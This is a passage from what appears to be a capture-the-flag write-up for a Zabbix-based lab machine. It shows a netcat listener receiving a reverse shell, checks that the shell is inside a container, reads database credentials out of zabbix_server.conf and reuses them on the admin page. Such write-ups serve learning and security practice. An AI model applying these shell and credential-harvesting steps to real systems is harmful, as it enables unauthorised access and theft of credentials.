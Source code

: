 ### First shell in the container

We got a shell after executing the script from Zabbix:
```
root@ragingunicorn:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.108] 54366
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=103(zabbix) gid=104(zabbix) groups=104(zabbix)
$ hostname
8e5a23a4dfec
$
```

Based on the random hostname and the `.dockerenv` file in the root directory we can assume we're currently in a container:
```
drwxr-xr-x   1 root root 4096 Oct 20 19:27 .
drwxr-xr-x   1 root root 4096 Oct 20 19:27 ..
-rwxr-xr-x   1 root root    0 Oct 20 19:27 .dockerenv
```

There's not much on this container except the Zabbix configuration file:
```
$ pwd
/etc/zabbix
$ ls
apache.conf
web
zabbix_server.conf
$
```

We can find some credentials in there:
```
$ egrep "DBUser|DBPassword" zabbix_server.conf
#       For SQLite3 path to database file must be provided. DBUser and DBPassword are ignored.
### Option: DBUser
# DBUser=
DBUser=zabbix
### Option: DBPassword
DBPassword=f.YMeMd$pTbpY3-449
$
```

- Username: `zabbix`
- Password: `f.YMeMd$pTbpY3-449`

### Getting a shell on the host OS

We can log in to the Zabbix admin page with the `admin` username and `f.YMeMd$pTbpY3-449` password.

